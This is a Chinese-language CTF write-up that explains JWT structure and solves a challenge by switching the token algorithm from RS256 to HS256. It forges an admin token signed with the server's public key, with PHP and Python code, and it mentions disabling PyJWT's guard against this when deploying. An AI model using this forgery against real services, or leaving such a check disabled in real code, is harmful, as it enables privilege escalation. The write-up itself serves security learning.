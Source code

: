 ### jwt协议简介

jwt一般长下面这个样子：
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6ImFkbWluIn0.R6Aplj46fUwIeCnnbm5OU2sDTQkG1rvjpW2bGqnfkGE
```
一般由3个部分组成的，由三个.分隔，分别是
```
header
payload
Sinature
```
每一部分都是base64编码的。
#### header
通常由两部分组成：令牌的类型，即JWT和正在使用的散列算法，如HMAC SHA256或RSA。
正如json所显示
```
{
    "alg":"RS256",
    "typ":"JWT"
}
```
alg为算法的缩写，typ为类型的缩写,然后，这个JSON被Base64编码，形成JSON Web Token的第一部分。

#### payload
令牌的第二部分是包含声明的有效负载。声明是关于实体（通常是用户）和其他元数据的声明。
这里是用户随意定义的数据
例如上面的举例
```
{
    "name":"wonderkun",
    "priv":"admin"
}
```
然后将有效载荷Base64进行编码以形成JSON Web Token的第二部分。
但是需要注意对于已签名的令牌，此信息尽管受到篡改保护，但任何人都可以阅读。除非加密，否则不要将秘密信息放在JWT的有效内容或标题元素中。

#### Signature
要创建签名部分，必须采用header，payload，密钥。然后利用header中指定算法进行签名，例如HS256(HMAC SHA256),签名的构成为：

```
HMACSHA256(
  base64Encode(header) + "." +
  base64Encode(payload),
  secret)
```
然后将这部分base64编码形成JSON Web Token第三部分.

### writeup

此题目用到一个jwt的一个漏洞,漏洞详情见[https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)


这其实是一个算法篡改攻击，因为服务器利用的RS256算法，用的是私钥进行签名，公钥进行验证的，然后根据提示：
[/static/js/common.js][/static/js/common.js]
```
function getpubkey(){
    /* 
    get the pubkey for test
    /pubkey/{md5(username+password)}
    */
}
```
我们可以获取到自己的public key。JWT的header部分中，有签名算法标识alg，而alg是用于签名算法的选择，最后保证用户的数据不被篡改。但是在数据处理不正确的情况下，可能存在alg的恶意篡改。我们可以伪造算法为hs256，然后利用我们的获取的public key，来签名伪造的数据，绕过验证。

但是注意，PyJWT库中对这种攻击做了预防，不允许hs256的密钥中出现下面这些字符，具体见algorithms.py:151

```python
        invalid_strings = [
            b'-----BEGIN PUBLIC KEY-----',
            b'-----BEGIN CERTIFICATE-----',
            b'-----BEGIN RSA PUBLIC KEY-----',
            b'ssh-rsa'
        ]

```
部署题目的时候，注意注释掉。

伪造一个数据：

```
{"alg":"HS256","typ":"JWT"}
{"name":"wonderkun","priv":"admin"}
```
两部分进行base64编码之后,合起来：
注意这里的base64是url base64编码，所以对常规的base64编码结果做如下修改：
- 删除等号
- 把 + 变为 -
- 把 / 变为 _
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6ImFkbWluIn0
```

然后获取到 wonderkun用户的pubkey为：

```
{
  "pubkey": "-----BEGIN PUBLIC KEY-----\nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCI2am2P9XyshjiU37d5QZBbzyF\nZ7aHg1VMdQSj423cncHKGuGz1sxPzBF+49qGQ2U2MpKDcwXCTKDotTvPm3arm0KZ\nlVp6RclIjYZqbnp0yTVQpO4YLmjBS7GmEMeaRUxDva2tob9BpwBx9RMQ1nPt0Yw4\n7mKHxPKXzUVE2xHiKwIDAQAB\n-----END PUBLIC KEY-----", 
  "result": true
}
```
用pubkey作为 HMAC_sha256的secret,算一下签名：

```php
$s = hash_hmac('sha256', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6ImFkbWluIn0', "-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCI2am2P9XyshjiU37d5QZBbzyF
Z7aHg1VMdQSj423cncHKGuGz1sxPzBF+49qGQ2U2MpKDcwXCTKDotTvPm3arm0KZ
lVp6RclIjYZqbnp0yTVQpO4YLmjBS7GmEMeaRUxDva2tob9BpwBx9RMQ1nPt0Yw4
7mKHxPKXzUVE2xHiKwIDAQAB
-----END PUBLIC KEY-----", true);
$s = base64_encode($s);
$s = str_replace(array('=','+','/'),array('','-','_'),$s);
echo $s;

```

最后合起来:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6ImFkbWluIn0.evD4XNPZ8e2DI9jnt1nH_sJ6zHJx4VZcFjUvk2IYcoM
```

访问/list的时候带上这个jwt token，就可以可以到管理员的note，访问一下，就是flag。







或者使用python版本来伪造

```
import jwt
import base64
public = "-----BEGIN PUBLIC KEY-----\nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCzq7HbMx8ea370AxU2NhP2uzip\nUgqJgp8FDMWqESMrgGlG60Of8tvLJcu+tEdBFOFSHRZmmk7wm/SdzC+0u+GDgTTq\nnrMH9sT6ScveMuCemLsOACpWK0Z8F7ojACMKBgr6/3dVLs1XwSTtr95k3Zf0oGMb\nAMEI3R3wWGhe0+uWCwIDAQAB\n-----END PUBLIC KEY-----"
print(jwt.encode({"name": "motemote","priv": "admin"}, key=public, algorithm='HS256'))
```

